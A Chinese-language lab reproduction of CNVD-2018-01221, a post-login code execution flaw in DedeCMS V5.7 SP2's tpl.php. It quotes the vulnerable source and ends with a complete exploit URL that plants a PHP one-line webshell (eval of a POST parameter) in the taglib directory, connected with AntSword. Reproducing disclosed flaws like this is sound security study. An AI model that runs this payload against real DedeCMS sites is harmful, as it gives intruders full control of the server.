







# CNVD-2018-01221DedeCMS后台代码执行漏洞

## 0x00 漏洞描述

织梦内容管理系统是一款PHP开源网站管理系统，DedeCMS V5.7 SP2版本中的tpl.php中存在代码执行漏洞,可以通过该漏洞在增加新标签中上传木马,获取webshell，该漏洞利用需要登录后台,并且后台的账户权限是管理员权限。

## 0x01 影响范围

DedeCMS V5.7 SP2版本

## 0x02 环境复现

使用PHP study来搭建环境

DedeCMS V5.7 SP2版本下载地址：[http://www.dedecms.com/products/dedecms/downloads/](http://www.dedecms.com/products/dedecms/downloads/)

将文件解压移动到PHP study的网站根目录下，浏览器访问http://localhost:8080/dedecms/uploads/install/index.php安装



## 0x03 漏洞复现

因为该漏洞属于后台漏洞，先直接登入后台，用户名和密码默认为admin，织梦默认后台路径是/uploads/dede





根据公开的漏洞详情，打开模块->文件管理器->dede->tpl.php文件，开始代码审计T^T，以下代码对应源代码247行到282行

```php
/*---------------------------
function savetagfile() { }
保存标签碎片修改
--------------------------*/
else if($action=='savetagfile')
{
    csrf_check();
    if(!preg_match("#^[a-z0-9_-]{1,}\.lib\.php$#i", $filename))
    {
        ShowMsg('文件名不合法，不允许进行操作！', '-1');
        exit();
    }
    require_once(DEDEINC.'/oxwindow.class.php');
    $tagname = preg_replace("#\.lib\.php$#i", "", $filename);
    $content = stripslashes($content);
    $truefile = DEDEINC.'/taglib/'.$filename;
    $fp = fopen($truefile, 'w');
    fwrite($fp, $content);
    fclose($fp);
    $msg = "
    <form name='form1' action='tag_test_action.php' target='blank' method='post'>
      <input type='hidden' name='dopost' value='make' />
        <b>测试标签：</b>(需要使用环境变量的不能在此测试)<br/>
        <textarea name='partcode' cols='150' rows='6' style='width:90%;'>{dede:{$tagname} }{/dede:{$tagname}}</textarea><br />
        <input name='imageField1' type='image' class='np' src='images/button_ok.gif' width='60' height='22' border='0' />
    </form>
    ";
    $wintitle = "成功修改/创建文件！";
    $wecome_info = "<a href='templets_tagsource.php'>标签源码碎片管理</a> &gt;&gt; 修改/新建标签";
    $win = new OxWindow();
    $win->AddTitle("修改/新建标签：");
    $win->AddMsgItem($msg);
    $winform = $win->GetWindow("hand","&nbsp;",false);
    $win->Display();
    exit();
}
```

这一部分代码除了对写入的文件名字做了过滤以及在第7行存在csrf_check()函数，需要在请求中带有token参数外，并没有什么其他安全措施，导致我们可以任意写入代码，而在对应源代码133行到164行里发现当action==upload时，能够获取token值（token是服务端生成的一串字符串，以作客户端进行请求的一个令牌，当第一次登录后，服务器生成一个token值返回给客户端，之后客户端只需带上这个token值前来请求数据即可，无需用户名和密码）

```php
/*----------------------
function _upload() {}
上传新模板
-----------------------*/
else if ($action == 'upload')
{
    require_once(dirname(__FILE__).'/../include/oxwindow.class.php');
    $acdir = str_replace('.', '', $acdir);
    $win = new OxWindow();
    make_hash();
    $win->Init("tpl.php","js/blank.js","POST' enctype='multipart/form-data' ");
    $win->mainTitle = "模块管理";
    $wecome_info = "<a href='templets_main.php'>模板管理</a> &gt;&gt; 上传模板";
    $win->AddTitle('请选择要上传的文件:');
    $win->AddHidden("action",'uploadok');
    $msg = "
    <table width='600' border='0' cellspacing='0' cellpadding='0'>
  <tr>
    <td width='96' height='60'>请选择文件：</td>
    <td width='504'>
        <input name='acdir' type='hidden' value='$acdir'  />
        <input name='token' type='hidden' value='{$_SESSION['token']}'  />
        <input name='upfile' type='file' id='upfile' style='width:380px' />
      </td>
  </tr>
 </table>
    ";
    $win->AddMsgItem("<div style='padding-left:20px;line-height:150%'>$msg</div>");
    $winform = $win->GetWindow('ok','');
    $win->Display();
    exit();
}
```

因此先通过upload获取到token值，访问该url后查看页面源代码得到token值



需要上传action，token，filename，content值来构造payload，浏览器返回修改成功



浏览源代码知道文件写入到taglib目录下，接着去访问test.lib.php文件，发现php代码能够执行



尝试写入一句话木马，用蚁剑连接

```http
http://192.168.110.1:8080//dedecms/uploads/dede/tpl.php?action=savetagfile&token=ac0da42da8b176eeb2e1e8bba94eba6b&filename=shell.lib.php&content=<?php @eval($_POST['cmd']);?>
```

连接成功



## 0x04 参考资料

[https://www.jianshu.com/p/24825a2683e6](https://www.jianshu.com/p/24825a2683e6)

[https://www.cnblogs.com/yuzly/p/11326571.html](https://www.cnblogs.com/yuzly/p/11326571.html)